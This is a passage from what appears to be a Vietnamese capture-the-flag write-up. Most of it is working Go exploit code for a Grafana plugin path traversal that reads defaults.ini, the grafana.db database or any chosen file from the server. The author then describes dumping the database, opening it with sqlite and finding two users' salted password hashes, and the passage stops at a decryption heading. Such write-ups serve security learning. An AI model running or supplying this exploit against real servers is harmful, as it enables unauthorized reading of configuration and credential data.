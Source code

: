 ```
}
}
}
}
func exploit(target, file string, dumpDatabase, dumpConfig bool) (string, error) {
url := target + "/public/plugins/alertlist/"
if dumpConfig {
url += "../../../../../conf/defaults.ini"
} else if dumpDatabase {
url += "../../../../../../../../var/lib/grafana/grafana.db"
} else {
url += "../../../../../../../../" + file
}
req, err := http.NewRequest("GET", url, nil)
if err != nil {
return "", err
}
req.Header.Set("User-Agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36")
resp, err := client.Do(req)
if err != nil {
return "", err
}
if resp.StatusCode != 200 {
return "", errors.New("status code is not 200")
}
defer resp.Body.Close()
body, err := io.ReadAll(resp.Body)
if err != nil {
return "", err
}
bodyString := string(body)
if bodyString == "seeker can't seek\n" {
return "", errors.New("cannot read requested file")
}
return bodyString, nil
}
```

Tiến hành khai thác lấy thông tin database

![[Pasted image 20241104100636.png]]

Tôi tiến hành mở tệp database vừa lấy được bằng `sqlite` và có được thông tin users

![[Pasted image 20241104100948.png]]

Có 2 user nhưng password đã được mã hóa. Nhưng có một giá trị **salt** được tạo ra nhằm tăng cường tính bảo mật.

## Giải mã 
